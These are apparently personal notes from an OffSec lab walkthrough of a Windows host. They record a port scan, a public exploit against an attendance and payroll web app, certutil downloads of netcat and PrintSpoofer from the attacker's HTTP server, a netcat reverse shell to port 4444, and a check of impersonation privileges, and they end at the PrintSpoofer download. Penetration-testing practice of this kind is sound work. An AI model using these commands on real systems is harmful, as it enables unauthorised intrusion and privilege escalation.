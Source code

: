  
Quick OS check
	Offsec tells us it's Windows

Follow up with a service scan on those open ports
```sh
sudo nmap -sC -sV -Pn -p 22,80,81,135,139,445,5040,5985 -v -T4 192.168.238.141 -oN services.nmap
```


### 81/tcp    open  hosts2-ns    syn-ack
Web page with the site title of attendance and payroll system

Google attendance and payroll system exploit

Found this: https://www.exploit-db.com/exploits/50801

Download and run. Delete the file path that doesn't exist in the code.

Runs successfully with a whoami as 
	ms01\mary.williams

Now to upgrade shell.

Will upload netcat to the windows host

```
sudo python3 -m http.server 80
```

Now on the windows host download the file from the attack box

```
certutil -urlcache -f http://192.168.45.174/nc64.exe nc.exe
```

Got a 200 code on the python server

Now to do a blind netcat reverse shell back to the attack box

```
nc.exe 192.168.45.174 4444 -e cmd.exe
```

Reverse shell into the windows host connected

now to check for privileges 

```
whoami -a
```

SeImpersonatePrivilege state is enabled

Now we want to upload the Print-Spoof exploit
https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0

Add to the tools folder where the python server is running

Download the print spoof exploit

```
certutil -urlcache -f http://192.168.45.174/PrintSpoofer64.exe ps.exe
```
